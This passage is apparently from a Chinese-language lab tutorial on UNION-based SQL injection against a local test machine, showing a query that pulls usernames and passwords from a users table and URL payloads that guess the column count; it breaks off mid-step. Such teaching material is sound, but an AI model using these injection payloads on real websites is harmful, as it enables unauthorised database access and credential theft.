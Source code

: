    ![](images/test_sql2.png)

### 利用UNION关键字进行SQL注入

#### 查找UNION的列数

使用UNION，攻击者可以操纵查询的结尾并从其他表中检索信息。

```sql
SELECT id，column2，column3 FROM cats WHERE id = 3  
UNION SELECT id，username，password FROM users
```

最重要的规则是两个语句都应返回相同数量的列，否则数据库将触发错误。



1. 由于不知道具体的列数，先猜1列看一下结果。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1``` 

   ![](images/select1.png)

2. 依次往下猜，发现到4列时可以看到有效显示。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1，2，3，4``` 

   ![](images/select4.png)

3. 查看页面源码可以看到多出来的一个链接。

   ![](images/add_picture2.png)



4. 点开上面的链接可以看到以下错误提示信息。
   ```